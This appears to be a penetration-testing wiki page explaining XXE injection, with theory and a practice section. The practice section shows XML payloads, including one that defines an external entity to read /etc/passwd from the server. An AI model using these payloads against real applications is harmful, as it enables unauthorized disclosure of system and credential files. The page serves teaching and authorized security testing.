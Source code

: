 # XXE injection

## Theory

Some web applications handle data and rely on the XML format to exchange data with the browsers.

> XXE vulnerabilities arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.
>
> XML external entity injection \(also known as XXE\) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data \([portswigger](https://portswigger.net/web-security/xxe)\).

XXE injections can sometimes lead to [SSRF \(Server-Side Request Forgery\)](ssrf-server-side-request-forgery.md), Local File Disclosure, Sensitive Information Disclosure, Data Exfiltration, RCE \(Remote Code Execution\) and so on.

## Practice

Testers need to find input vectors and forms that send XML formatted data to the application.

For instance, in the following request, the user submitted a search form with the input "TESTINPUT".

```http
POST /action HTTP/1.1
Host: some.website
[...]
Connection: close

<?xml version="1.0"?>
<searchForm>  
         <from>TESTINPUT</from>
</searchForm>
```

The tester can detect if the XML parser parses the external entities by defining one inside a `DOCTYPE` element, and checking if the value in the `from` element gets replaced \(the value will be replaced in the reflected messages sent by the application like error messages, search results\).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom "VULNERABLE"> ]>
<searchForm>  
         <from>&newfrom;</from>
</searchForm>
```

A vulnerable application should replace the value by "VULNERABLE". The tester can then try to disclose local files by replacing the `from` value with the content of a sensitive file \(e.g. `/etc/passwd`\).

```markup
<?xml version="1.0"?>
<!DOCTYPE xxeinjection [ <!ENTITY newfrom SYSTEM "file:///etc/passwd"> ]>
<searchForm>
  <from>&newfrom;</from>
</searchForm>
```

## References

{% embed url="https://portswigger.net/web-security/xxe" caption="" %}

{% embed url="https://enciphers.com/how-to-exploit-xxe-vulnerabilities/" caption="" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection" caption="" %}

